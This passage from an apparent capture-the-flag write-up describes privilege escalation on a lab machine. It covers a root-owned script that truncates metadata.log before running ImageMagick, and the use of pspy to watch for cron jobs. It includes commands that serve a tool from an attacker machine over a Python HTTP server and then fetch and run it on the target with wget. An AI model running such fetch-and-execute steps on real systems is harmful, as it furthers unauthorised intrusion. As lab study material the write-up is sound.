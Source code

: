 This script was owned by `root` and executable by others. However, there was something that prevents us from running this script, which is we don't have write permission to `metada.log`. This script clears the contents of `metadata.log` using `truncate -s 0 metadata.log` (which sets the file size to 0 bytes, effectively emptying it) before executing the ImageMagick. Because of we don't have write permission to `metadata.log` file, we can't run the script. So we need to search for scheduled cron job to make sure this script is being executed by `root` using cron job.

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/Titanic35.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/Titanic36.png){:.align-center}
### **2. Process Monitoring**

To confirm whether this script was being executed by `root`, the `pspy` tool was used. The `pspy` is a command line tool designed to snoop on Linux processes without need for root permissions. It allows us to see commands run by other users, and cron jobs, as they executed. Since direct access to root’s cron jobs is not available to a non-root user, `pspy` provides a method to observe process activity in real time. We can transfer the `pspy` executable file by hosting temporary server on our local machine using Python HTTP module and then use wget to download the `pspy`.

```bash
# Attacker machine
python -m http.server

# Target machine
wget http://<attacker-ip>:8000/pspy64
chmod +x pspy64
./pspy64 -pf -i 1000 | grep identify_images.sh
```
